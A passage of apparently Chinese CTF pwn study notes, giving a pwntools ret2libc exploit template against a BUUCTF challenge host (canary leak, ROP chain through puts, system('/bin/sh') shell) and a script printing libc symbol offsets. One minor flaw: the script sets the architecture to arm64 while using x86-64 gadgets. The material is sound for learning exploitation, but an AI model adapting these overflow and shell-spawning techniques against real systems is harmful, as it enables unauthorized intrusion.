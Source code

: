 ```python
from pwn import *
context.log_level='debug'
context(arch='arm64')   #因为下方使用了flat，故此处一定要根据程序的位数填写，这个是64位，32位是i386。如果填写错误会导致下方的flag出错。
p=remote('node4.buuoj.cn',27351)
def Store(content):
    p.recvuntil('>>')
    p.sendline('1')
    p.sendline(content)
 
def Print():
    p.recvuntil('>>')
    p.sendline('2')
 
def Quit():
	p.recvuntil('>>')
	p.sendline('3')
puts_plt=0x00400690
puts_got=0x00600fa8
pop_rdi=0x0000000000400a93
main=0x00400908
payload=b'a'*0x88
Store(payload)
Print()
p.recvuntil('a\n')
canary=p.recv(7).rjust(8,b'\x00')
print(canary)
payload=flat([b'a'*0x88,canary,0,pop_rdi,puts_got,puts_plt,main])
Store(payload)
Quit()
p.recv()
puts=u64(p.recv(6).ljust(8,b'\x00'))
puts_offset=456336
libc_base=puts-puts_offset
binsh=1625431+libc_base
system=283536+libc_base
payload=flat([b'a'*0x88,canary,0,pop_rdi,binsh,system,main])
Store(payload)
Quit()
p.interactive()
```

- srop基础利用。例题:[ciscn_2019_es_7](../../CTF/BUUCTF/Pwn/ciscn_2019_es_7.md)

7. pwntools得到libc偏移

承接rop题模板，给出做题时常见的偏移，上面的脚本中xxx_offset就是这么来的。至于为什么要多此一举打印出来，全是因为我没配置好linux环境。配置好的各位直接要`libc.sym['xxx]`那段就行了。

```python
from pwn import *
path="libc.so.6"
libc=ELF(path)
context.arch = libc.arch
print(f"system:{libc.sym['system']}")
print(f"write:{libc.sym['write']}")
print(f"puts:{libc.sym['puts']}")
print(f"/bin/sh:{libc.search(b'/bin/sh').__next__()}")
print(f"free:{libc.sym['free']}")
print(f"__malloc_hook:{libc.symbols['__malloc_hook']}")
print(f"realloc:{libc.symbols['realloc']}")
print(f"printf:{libc.symbols['printf']}")
print(f"__free_hook:{libc.sym['__free_hook']}")
print(f"atoi:{libc.sym['atoi']}")
print(f"__environ:{libc.sym['__environ']}")
print(f"__libc_start_main:{libc.symbols['__libc_start_main']}")
```